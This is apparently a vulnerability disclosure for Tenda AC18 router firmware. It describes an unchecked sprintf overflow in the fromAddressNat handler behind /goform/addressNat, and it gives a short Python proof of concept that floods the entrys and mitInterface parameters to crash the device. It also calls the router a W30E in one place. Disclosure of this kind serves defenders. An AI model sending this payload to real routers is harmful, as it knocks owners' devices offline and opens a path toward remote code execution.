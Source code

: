 # Tenda Router AC18 Vulnerability
This vulnerability lies in the `/goform/addressNat` page which influences the lastest version of Tenda Router W30E. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.

In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/192/vlun.png)

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
